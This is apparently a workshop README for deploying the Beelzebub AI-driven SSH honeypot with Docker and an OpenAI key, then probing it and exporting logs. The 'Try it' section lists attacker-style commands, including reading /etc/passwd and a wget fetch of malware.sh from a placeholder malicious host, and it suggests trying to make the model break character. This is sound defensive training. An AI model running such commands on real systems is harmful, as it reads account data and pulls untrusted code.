 Beelzebub is an advanced honeypot framework designed to provide a highly secure environment for detecting and analyzing cyber attacks. It offers a low code approach for easy implementation and uses AI to mimic the behavior of a high-interaction honeypot

You can find the original GitHub of at [Beelzebub Repo](https://github.com/mariocandela/beelzebub)

# Setup
Participants will deploy and monitor an AI-powered SSH honeypot (Beelzebub) to detect and analyze attacker behavior in real time

- $`sudo su -`
- $`apt update && apt upgrade -y`
- $`systemctl enable --now docker`
- $`cd /opt`
- $`git clone https://github.com/mariocandela/beelzebub.git`

### Get the ChatGPT Api Key
- Go to [ChatGPT](https://chatgpt.com/) and create an account if you don’t have one
- Make sure you have credits or a payment method at [Billing Setting](https://platform.openai.com/settings/organization/billing/overview)
- Go to [API Keys](https://platform.openai.com/api-keys) and create a new key
- Save this key as you will only see it once!

### Deployment
- Make sure you are into **/opt/beelzebub/**
- $`nano docker-compose.yml` - Put your key here
<img width="446" height="71" alt="image" src="https://github.com/user-attachments/assets/5f407ef9-759e-4eec-8d97-98ef396dc30d" />

- Also comment the **Default SSH Mapping**(ssh 22 port)
<img width="202" height="84" alt="image" src="https://github.com/user-attachments/assets/4375696b-89c3-45a6-afd9-d2f5a549168e" />

- $`cd configurations/services/`
- $`mv ./ssh-22.yaml ~`
- $`nano ./ssh-2222.yaml` - Add your key with double quotes around it like `OPENAI_API_KEY: "your_api_key_here"`
- $`cd /opt/beelzebub/`
- $`docker-compose build`
- $`docker-compose up -d`

# Try it
Connect to it like
- $`ssh -p 2222 root@127.0.0.1` - use password "**1234**"
- Try using any commands like **ls** or **id**
<img width="659" height="126" alt="image" src="https://github.com/user-attachments/assets/914c1f89-c3d0-412d-bae6-7b9fcee70d9e" />

Everything you see is AI generated, and that's what an attacker would see

Cool, right?

- Try running suspicious commands an attacker would use
<pre>uname -a
cat /etc/passwd
wget http://malicious.example/malware.sh
id</pre>

Now exit the session to export the logs

- $`cd /opt/beelzebub/`
- $`docker-compose logs -f`
- $`docker-compose logs > honeypot.log`

Take your time into analyzing the logs and seeing how they are being built

Try to make ChatGpt break character, this method, like anything else in cybersecurity isn't flawless, but it surely tricks hackers and does its job, **to increase Attack Time**



